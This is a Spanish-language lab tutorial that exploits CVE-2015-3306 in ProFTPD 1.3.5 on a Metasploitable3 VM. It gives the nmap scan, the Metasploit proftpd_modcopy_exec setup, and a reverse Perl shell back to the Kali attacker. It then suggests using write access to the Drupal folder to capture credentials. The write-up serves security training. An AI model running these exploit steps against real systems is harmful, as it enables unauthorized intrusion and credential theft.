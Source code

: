 # Explotar vulnerabilidad CVE-2015-3306 presente en ProFTPD 1.3.5.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Metasploitable3_ubu1404***.

Como ya hemos visto, ***nmap*** es la herramienta estrella para descubrir los servicios presente en una víctima que resida en la misma red local que el atacante. 


Procedemos a realizar un nmap de todos los puertos en la víctima (***192.168.20.13***). El parámetro ***-sV*** sondea los puertos abiertos para determinar la versión de cada servicio. Conocer la versión es importante para determinar si existen vulnerabilidades que se puedan implementar. 
(Nota: Tardará bastante tiempo. Tener paciencia)
```
nmap -sV 192.168.20.13 -p 0-65535
```

El resultado debe ser similar al siguiente. Observar como el rectángulo rojo marca que se ha detectado la aplicación ***ProFTPD 1.3.5***. También comprobar cómo el rectángulo azul indica que hay un servidor web presente en el puerto ***80***.

![ProFTPD 1.3.5](../img/lab-30-A/180820221102.png)

Localizamos información sobre vulnerabilidades en ***CVE Details*** y encontramos que existe una de ***nivel 10***: https://www.cvedetails.com/cve/CVE-2015-3306/. Abrir el link y estudiarlo detenidamente.

En la parte inferior de la página puede observar que se dice que ***No hay ningún módulo de Metasploit relacionado con esta entrada CVE***, pero eso no es correcto, como veremos a continuación.

Una búsqueda un poco más detenida demuestra que Metasploit sí que puede explotar la vunerabilidad presente en ***ProFTP 1.3.5***: https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/

Como puede leerse en la documentación, el módulo ***proftpd_modcopy_exec*** de Metasploit, se aprovecha de la vulnerabilidad presente en la implementación del comando ***SITE CPFR/CPTO*** de ***ProFTPD***. Cualquier cliente (de FTP) no autenticado (No hace falta conocer credenciales) puede aprovecharse para copiar archivos en ***cualquier carpeta*** del sistema de archivos de la víctima. Los comandos de copia se ejecutan con los derechos (identidad) del servicio ProFTP, que por defecto corre bajo los privilegios del usuario ***nobody***. Mediante el uso de ***/proc/self/cmdline*** es posible subir a la víctima un archivo php que implemente una shell inversa, mediante el cual podemos tomar el control de la víctima.


Cargamos la consola de ***Metasploit*** si no estuviera iniciada.
```
msfconsole
```

Cargamos el módulo del exploit.
```
use exploit/unix/ftp/proftpd_modcopy_exec
```

Mostramos las opciones de configuración.
```
show options
```

La salida será la siguiente.
![Opciones del módulo](../img/lab-30-A/180820221143.png)

Las configuraciones que debemos proporcionar son:

* *RHOSTS*: Obligatoria. Debemos poner la IP de la victima, que en nuestro escenario será ***192.168.20.13***.
* *RPORT*: Obligatoria. Una vez subido el payload PHP, el ataque se produce por medio de una Request HTTP. De esta forma, para que el ataque funcione, se necesita un servidor web en la víctima. Este hecho ha sido comprobado en el ejercicio anterior. Como puedes comprobar, no es necesario cambiar este valor (***80***), porque es el puerto correcto donde el servidor ***Apache*** está sirviendo peticiones.
* *RPORT_FTP*: Obligatoria. Este ataque necesita la presencia del servidor ***ProFTPD 1.3.5***, que como hemos comprobado anteriormente, está presente y escuchando en el puerto ***21***, por lo que no es necesario cambiar este ajuste.
* *SITEPATH*: Obligatoria. Es la ruta del directorio raíz del servidor web. En ***Apache*** es ***/var/www/html***. La configuración por defecto que puedes ver es ***/var/www***, que no coincide, por lo que debemos cambiarla a ***/var/www/html***. ***/proc/self/cmdline*** copiará en este directorio el payload php.
* *TARGETURI*: Obligatoria. Es la URI a la que se conectará el exploit. En ella se espera encontrar el payload php que será llamado por la Request HTTP.
* *TMPPATH*: El exploit no funciona copiando directamente el payload php a la carpeta ***/var/www/html***, si no que lo copia primero a una carpeta temporal y luego, desde ésta al directorio ***html***. Por lo tanto, la configuración debe tener una carpeta en la que no existan problemas de permisos. La candidata ideal es ***/tmp***, así que no modificamos esta configuración.

Mostramos los ***targets***, que en ***Metasploit*** son los servicios vulnerables.
```
show targets
```

La salida muestra que el único objetivo posible es ***ProFTP*** en su versión ***1.3.5***.

![show targets](../img/lab-30-A/180820221222.png)

Ninguna otra versión de esta aplicación presenta la vulnerabilidad, por lo que una simple actualización de la misma cerraría la vulnerabilidad.

Configuramos el módulo para el ataque.
```
set RHOST 192.168.20.13
```
```
set SITEPATH /var/www/html
```

Comprobamos que todas las opciones requeridas (***RHOSTS***, ***RPORT***, ***RPORT_FTP***, ***SITEPATH***, ***TARGETURI*** y ***TMPPATH***) tienen valor.
```
show options
```

Mostramos los ***Payloads*** compatibles con este ataque:
```
show payloads
```

La salida mostrará lo siguiente.

![show payloads](../img/lab-30-A/180820221239.png)

Debemos elegir un tipo de payload que pueda ejecutarse en la víctima. En la mayoría de los sistemas Linux se encuentran instalado ***Python*** y ***Perl***. Sería cuestión de ir probando si no se está seguro. En ***Metasplitable3*** están instalados todos.

Seleccionamos el payload
```
set payload payload/cmd/unix/reverse_perl
```

Cuando seleccionamos un payload, aparecen opciones adicionales a las del módulo, que debemos configurar.
```
show options
```

![opciones del payload](../img/lab-30-A/180820221245.png)

* *LHOST*: Obligatoria. Siempre es la máquina que ataca, y a la que se conectará la shell inversa cuando el payload se active. En nuestro caso es la máquina ***Kali***, así que debemos poner en ella su IP (***192.168.20.9***)
* *LPORT*: Obligatoria. Es el puerto de escucha que abrirá la máquina ***Kali***, y al que se conectará la shell inversa del payload. Para que los perimetrales no presenten impedimentos, se podría poner en valor ***80*** o, mejor ***443***. Como en el laboratorio no hay este tipo de impedimentos, dejamos el valor propuesto.
```
set LHOST 192.168.20.9
```

Iniciamos el ataque.
```
run
```

Como se puede comprobar tenemos una sesion remota. 

![Sesión remota](../img/lab-30-A/180820221305.png)

Podemos escribir comandos y ver el resultado.
```
whoami
```

También podemos mostrar la ayuda para ver las posibilidades que este payload ofrece.
```
help
```

![Comandos disponibles](../img/lab-30-A/180820221308.png)

Además de ***bajar*** o ***subir*** archivos, podemos invocar una ***shell*** más potente, basada en ***python***
```
shell
```

Esto será posible si en la víctima se encuentra instalado ***Python***. Pulsamos la tecla ***Enter*** para activar la shell.

![Shell basada en Python](../img/lab-30-A/180820221311.png)

Podemos movernos por el sistema con la identidad ***www-data***, y rápidamente vemos que tenemos permiso de escritura en el directorio ***drupal***, lo que permitiría iniciar otro tipo de ataque, por ejemplo para capturar credenciales.

![Permiso escritura en Drupal](../img/lab-30-A/180820221317.png)

Salimos de la shell de Python.
```
exit
```

Pulsamos ***CTRL+C*** para abortar la sessión y volver al prompt de ***Metasploit***.
